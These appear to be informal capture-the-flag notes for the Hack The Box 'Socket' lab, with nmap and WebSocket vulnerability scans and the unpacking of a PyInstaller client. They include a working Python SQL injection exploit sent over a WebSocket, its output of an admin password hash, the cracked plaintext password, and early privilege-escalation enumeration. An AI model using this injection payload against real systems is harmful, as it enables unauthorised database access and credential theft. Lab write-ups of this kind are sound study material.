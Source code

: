 ─$ nmap 10.10.11.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 23:42 EDT
Nmap scan report for 10.10.11.206
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 56.56 seconds
                                                        
it says that it is made with flask

use stews 

python3 STEWS-vuln-detect.py http://10.10.11.206

![](20230712075738.png)

so  5789 oirt us also open

 10.10.11.206 

 nmap showed 22 80 and there is one more higher port

 python3 vuln_detect.py -1 -n -u 10.10.11.206:5789


 python3 vuln_detect.py -1 -n -u 10.10.11.206:5789
   Testing ws://10.10.11.206:5789
>>>Note: ws://10.10.11.206:5789 allowed http or https for origin
>>>Note: ws://10.10.11.206:5789 allowed null origin
>>>Note: ws://10.10.11.206:5789 allowed unusual char (possible parse error)
>>>VANILLA CSWSH DETECTED: ws://10.10.11.206:5789 likely vulnerable to vanilla CSWSH (any origin)
====Full list of vulnerable URLs===
['ws://10.10.11.206:5789']
['>>>VANILLA CSWSH DETECTED: ws://10.10.11.206:5789 likely vulnerable to vanilla CSWSH (any origin)']

```

[+] Processing qreader
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 108535118 bytes
[+] Found 305 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_pyqt5.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: qreader.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: qreader

You can now use a python decompiler on the pyc files within the extracted directory

```
after looking into the source code we can find the exploit

```
from websocket import create_connection
import json
ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT username,password,"3","4" from users;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

python3 exploit_socket.py
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "3", "downloads": "4"}}

cracking it in crackstation
	denjanjade122566
                     
the admin is somehow tkeller


tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh


running linpeas.sh

Proc 1305 with ppid 1263 is run by user svc but the ppid user is root
Proc 1306 with ppid 1263 is run by user svc but the ppid user is root
Proc 1959 with ppid 1 is run by user tkeller but the ppid user is root
Proc 2066 with ppid 1956 is run by user tkeller but the ppid user is root

tkeller@socket:~$ ps -aux | grep 1305
svc         1305  0.0  1.7 385300 70292 ?        Ssl  05:42   0:02 python3 /var/www/main/main.py
tkeller    22305  0.0  0.0   6476  2436 pts/0    S+   07:31   0:00 grep --color=auto 1305
tkeller@socket:~$ ps -aux | grep 1306
_laurel      776  0.0  0.2  13064  8948 ?        S<   05:42   0:04 /usr/local/sbin/laurel --config /etc/laurel/config.toml
svc         1306  0.0  0.5  32540 23348 ?        Ss   05:42   0:00 python3 /var/www/ws_server/server.py
tkeller    22307  0.0  0.0   6608  2476 pts/0    S+   07:31   0:00 grep --color=auto 1306

